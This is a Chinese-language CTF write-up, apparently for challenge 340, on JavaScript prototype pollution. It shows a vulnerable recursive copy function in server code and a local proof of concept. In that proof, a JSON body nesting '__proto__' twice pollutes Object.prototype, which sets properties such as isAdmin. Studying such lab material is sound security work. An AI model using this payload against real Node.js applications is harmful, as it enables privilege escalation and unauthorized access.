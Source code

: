flag:![](https://i.loli.net/2021/09/07/Q81k2r5pbq7inMc.png)



## 340 原型链污染++

> 下载源码：
> 看关键部分：
>
> ```js
> var flag='flag_here';
> var user = new function(){
>  this.userinfo = new function(){
>  this.isVIP = false;
>  this.isAdmin = false;
>  this.isAuthor = false;     
>  };
> }
> utils.copy(user.userinfo,req.body);
> if(user.userinfo.isAdmin){
> res.end(flag);
> }
> ```
>
> 还是利用copy函数进行原型链污染，但可以看到user.info的原型不是object，而是user
> 即`user.info.__proto__.__proto__`才是object

其实和339一样，就是需要套两层`__proto__`才能污染到object对象
可以本地试一下：

```js
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }

var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }

body=JSON.parse('{"__proto__":{"__proto__":{"query":"hhh"}}}');
copy(user.userinfo,body);
user.userinfo
user.query
```
